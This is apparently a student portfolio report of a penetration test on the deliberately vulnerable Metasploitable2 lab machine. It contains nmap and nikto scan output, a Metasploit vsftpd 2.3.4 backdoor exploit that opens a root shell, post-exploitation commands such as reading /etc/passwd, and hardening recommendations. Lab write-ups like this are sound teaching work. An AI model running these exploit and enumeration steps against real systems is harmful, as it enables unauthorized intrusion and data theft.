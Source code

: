 Cybersecurity and Ethical Hacking Portfolio Report
1. Introduction
This report documents a penetration test conducted on a controlled, isolated environment (a vulnerable virtual machine, e.g., Metasploitable2) to demonstrate key cybersecurity and ethical hacking skills. The objective was to identify vulnerabilities, exploit them, and collect relevant information, simulating a real-world ethical hacking scenario.

2. Target Information
Target IP: Internal/Isolated IP (192.168.56.102)
Operating System: Linux (Based on Ubuntu)
Kernel Version: 2.6.24-16-server
Note: The environment was a purposely vulnerable machine used for educational purposes.

3. Tools Used
Nmap: Network scanning tool to discover open ports and services.
Nikto: Web vulnerability scanner for detecting web server misconfigurations.
Metasploit Framework: Exploit framework used to exploit vulnerabilities.
4. Vulnerability Discovery
Nmap Scan Results:
Nmap was used to scan for open ports and services running on the target machine.

Copy code
nmap -A 192.168.56.102

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.2.8 (Ubuntu)
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
Key Vulnerabilities:
FTP (vsftpd 2.3.4): Vulnerable to a backdoor vulnerability that could allow remote command execution.
HTTP (Apache 2.2.8): Outdated version with several potential misconfigurations and security issues.
MySQL (5.0.51a): Potential misconfigurations and outdated version, making it vulnerable to SQL injection attacks.
Nikto Web Vulnerability Scan:

Copy code
nikto -h http://192.168.56.102

+ Server: Apache/2.2.8 (Ubuntu)
+ /: HTTP TRACE method is active, vulnerable to Cross-Site Tracing (XST).
+ /: The anti-clickjacking X-Frame-Options header is not present.
+ Apache/2.2.8 is outdated, multiple security vulnerabilities exist.
Nikto discovered that the Apache web server was missing important security headers and had vulnerabilities due to its outdated version.

5. Exploitation
FTP Backdoor Exploit:
Using the Metasploit Framework, the backdoor vulnerability in the vsftpd 2.3.4 service was exploited, granting root access to the system.

Copy code
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] Command shell session 1 opened (192.168.56.101:45395 -> 192.168.56.102:6200)
Post-Exploitation:
After gaining access, various post-exploitation techniques were used to gather information from the system.

Commands Executed:
Copy code
uname -a                # To gather system information
cat /etc/passwd         # To enumerate user accounts
ls -la /root            # To list files in the root directory
ps aux                  # To view running processes
6. Sensitive Data Collected
User Accounts: Found in the /etc/passwd file, including root, daemon, and several others.
Running Processes: Apache, MySQL, and VNC services were identified, confirming active services on the machine.
Root Directory Files: Important system files were identified, but no critical sensitive information was accessed or modified.
7. Conclusion
The penetration test revealed critical vulnerabilities in the target system:

vsftpd 2.3.4 FTP service: Exploitable backdoor vulnerability that allows root access.
Outdated Apache Web Server: Vulnerable to attacks due to missing security headers and outdated configurations.
MySQL: Version 5.0.51a has known vulnerabilities, possibly allowing for SQL injection attacks.
Recommendations:

Update all outdated services (FTP, Apache, MySQL) to their latest versions.
Disable unnecessary services (such as FTP and Telnet) or restrict access to them.
Configure the web server with proper security headers (X-Frame-Options, X-Content-Type-Options, etc.) and disable HTTP TRACE methods.
8. Final Notes
This report demonstrates the ability to perform ethical hacking in a controlled, isolated environment. The vulnerabilities found were in a purposely vulnerable machine, and no unauthorized systems were accessed. The findings and recommendations provided here would enhance the security posture of the target system if implemented.
